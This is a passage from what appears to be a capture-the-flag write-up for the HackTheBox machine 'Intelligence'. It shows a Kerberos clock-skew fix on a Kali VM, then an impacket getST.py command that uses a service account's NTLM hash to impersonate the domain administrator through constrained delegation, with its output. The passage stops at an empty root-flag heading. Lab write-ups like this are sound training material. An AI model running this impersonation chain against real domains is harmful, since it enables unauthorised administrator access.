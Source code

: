 ## Time Skew Fix

My VM's clock has to be within a few minutes of the domain controller, so first we need to sync them. This was quite painful!

Shut VM down and then from host, which for me was Windows 10 you need to disable the time sync. Open PowerShell and type this:

```powershell
PS C:\Program Files\Oracle\VirtualBox> .\VBoxManage.exe setextradata "Kali-Linux-2021.3-vbox-amd64" "VBoxInternal/Devices/VMMDev/0/Config/GetHostTimeDisabled" 1
```

Now start the VM back up and install ntupdate and chrony:

```sh
┌──(root💀kali)-[~]
└─# apt install ntpdate chrony
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
chrony is already the newest version (4.1-3).
ntpdate is already the newest version (1:4.2.8p15+dfsg-1).
0 upgraded, 0 newly installed, 0 to remove and 0 not upgraded.
```

Now set Kali to use NTP for it's time server and update from the box:

```sh
┌──(root💀kali)-[~]
└─# timedatectl set-ntp true

┌──(root💀kali)-[~]
└─# ntpdate 10.10.10.248
 8 Oct 22:52:49 ntpdate[1268]: step time server 10.10.10.248 offset +26079.737476 sec
```

We see our clock has been changed. Now we try getST again:

```sh
┌──(root💀kali)-[~]
└─# python3 /usr/share/doc/python3-impacket/examples/getST.py intelligence.htb/svc_int$ -spn WWW/dc.intelligence.htb -hashes :d170ae19de30439df55d6430e12dd621 -impersonate administrator
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for user
[*] Impersonating administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache

┌──(root💀kali)-[~]
└─# export KRB5CCNAME=Administrator.ccache
```

## Root Flag
